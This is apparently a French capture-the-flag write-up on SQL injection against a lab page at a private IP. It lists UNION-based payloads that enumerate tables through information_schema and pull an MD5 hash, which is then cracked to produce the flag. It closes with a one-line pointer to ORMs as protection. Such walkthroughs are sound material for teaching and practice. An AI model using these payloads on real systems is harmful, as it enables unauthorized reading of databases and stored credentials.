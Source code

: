 # SQL INJECTION

http://192.168.1.26/?page=searchimg

1. Hmmm ...

    1 OR 1=1 
    1 ORDER BY 2
    1 ORDER BY 3
    1 UNION SELECT database(), user()

2. Intéressant ...

    1 OR 1=1 UNION SELECT null, table_name FROM information_schema.tables  
    1 OR 1=1 UNION SELECT null, column_name FROM information_schema.columns
    1 or 1=1 UNION select table_name, column_name FROM information_schema.columns

    Avec ces injections on peut structurer la DB : 

    users       : user_id, first_name, last_name, town, country, planet, Commentaire, countersign
    guestbook   : id_comment, comment, name
    list_images : id, url, title, comment
    vote_dbs    : id_vote, vote, nb_vote, subject

3. Continuons ...

    1 or 1=1 UNION SELECT title, comment FROM list_images

Et voilà ! On obtient un hash MD5 : 1928e8083cf461a51303633093573c46
https://md5decrypt.net/#answer => MD5 Decrypt => albatroz => SHA256 Encrypt => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


# PROTECTION

CF. Faille "sql-users" ... Les ORM ! (Object-Relational Mapping)